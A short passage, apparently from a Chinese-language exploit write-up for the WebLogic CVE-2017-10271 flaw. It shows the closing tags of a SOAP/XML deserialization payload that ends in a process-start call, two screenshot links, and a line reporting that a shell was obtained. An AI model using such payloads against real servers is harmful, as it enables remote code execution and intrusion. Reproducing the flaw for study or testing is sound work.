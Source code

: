 ```
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![02](./img/weblogic_CVE-2017-10271/02.png)

成功获取 shell：

![01](./img/weblogic_CVE-2017-10271/01.png)
